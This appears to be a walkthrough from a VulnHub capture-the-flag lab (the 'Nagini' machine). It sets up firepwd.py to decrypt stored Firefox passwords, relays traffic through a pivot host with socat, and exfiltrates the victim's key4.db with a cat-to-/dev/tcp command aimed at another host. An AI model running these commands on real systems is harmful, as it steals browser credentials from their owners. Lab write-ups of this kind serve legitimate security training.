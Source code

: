 ```
❯ ls
 mozilla_db   firepwd.py   LICENSE   mozilla_pbe.pdf   mozilla_pbe.svg   readme.md   requirements.txt
❯ python3 firepwd.py
Traceback (most recent call last):
  File "/home/z3kk3n/Desktop/vulnHUB/targetMachine/content/firepwd/firepwd.py", line 28, in <module>
    from Crypto.Cipher import DES3, AES
ModuleNotFoundError: No module named 'Crypto'
```
this is a way to fix it 
```
with this command you  create a virtual environment  
❯ python3 -m venv venv
here's a way of activate
❯ source venv/bin/activate
now the installation 

❯ pip3 install -r requirements.txt
Collecting PyCryptodome>=3.9.0
  Downloading pycryptodome-3.17-cp35-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.1 MB)
     |████████████████████████████████| 2.1 MB 1.3 MB/s 
Collecting pyasn1>=0.4.8
  Downloading pyasn1-0.5.0-py2.py3-none-any.whl (83 kB)
     |████████████████████████████████| 83 kB 2.3 MB/s 
Installing collected packages: PyCryptodome, pyasn1
Successfully installed PyCryptodome-3.17 pyasn1-0.5.0
```
usage 
if we try to execute it 

```bash 
❯ python3 firepwd.py
cannot find key4.db or key3.db
```
they ask us for a key4.db or key3.db to 

and actually we have them let's bring it 


how we can not reach our ip we have to work using socat from the intermediary node so from 10.10.0.136 in our case 

```bash
./socat TCP-LISTEN:4848,fork TCP:192.168.100.53:692 
```
where ```TCP-LISTEN``` stay listening all the traffic coming from 4848```,fork``` and fork it ```TCP:192.168.100.53:692``` now send them to 192.168.100.53:692

now how we don't have python or nc we have to use cat to tranfer data

```bash
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$ cat < key4.db > /dev/tcp/10.10.0.136/692
```
where ```cat``` visulize the output ```< key4.db > ``` from key.db and send to ``` /dev/tcp/10.10.0.692``` the node 10.10.0.136 on port 692
we have to do the same thing with the another archive 
